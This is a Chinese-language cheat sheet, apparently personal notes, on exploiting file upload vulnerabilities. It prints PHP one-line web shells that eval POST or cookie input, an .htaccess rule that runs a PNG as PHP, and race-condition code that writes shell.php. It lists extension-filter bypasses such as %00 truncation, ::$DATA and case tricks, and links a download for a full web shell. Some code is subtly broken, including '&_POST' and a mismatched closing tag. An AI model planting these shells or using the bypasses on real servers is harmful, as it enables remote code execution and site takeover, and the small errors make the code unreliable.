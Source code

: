 ```yaml
---
catalog: true
tags:
    web
    upload
---
```

# 文件上传漏洞
## 木马后门  
### 一句话木马
```php
	<?php @eval($_POST["cmd"]); ?>
	Cookie
	<?php @$a = $_COOKIE[1];$b =''; $c =''; @assert($b.$a); ?>
```
```js
	<script language="php">@eval($_POST['cmd'])</script>
```

### 小马
### 大马  
>链接：https://pan.baidu.com/s/1NM1kD7bEa_aUEqZxVaplpg?pwd=p2s8  
>提取码：p2s8

---

## 文件上传绕过方法
>删除/禁用js、修改拓展名、修改MIME类型、等价拓展名、大小写、htaccess、双写、空格、点、  
>::$DATA、%00截断、0X00截断、图片马、条件竞争等等  
---

### MINE类型
>常见Content-Type
1.image/gif 
2.image/png 
3.image/jpeg    
4.text/plain
5.text/html  
6.application/pdf  

### 文件内容
1.文件幻数  有`GIF89a`等等  
2.文件相关信息  
3.图片渲染  
>对图片进行代码注入
![php](/img/1php.png)  
![house](/img/house.png)  
4.二次渲染
>使用溢出攻击实现

### 文件后缀

#### 1.黑名单  
>后缀大小写(.Php)、  
>空格(.php )、  
>点(.php.)、  
>(.php::$DATA)、  
>Apache解析漏洞不识别`.rar`/`.owf`(.php.rar.owf)  
>.htaccess文件
```htaccess
	<FilesMatch "shell.png">
	SetHandler application/x-httpd-php
	</FileMatch>  
```  

#### 2.白名单  
>%00截断、0X00截断 shell.php`%00`.png
>POST方式注意在hex编码处将空格`0x20`改为`0x00`
---
### 竞争条件攻击  
>一些网站先允许任意文件上传，再对文件内容进行检测  
>检测到删除之间存在时间差  
>可以在时间差内生成新的`shell.php`  
  
#### 上传的php代码
```php
	<?php
		fputs(fopen('../shell.php','w'),'<?php @eval(&_POST['cmd']);?>');
	?>		
```
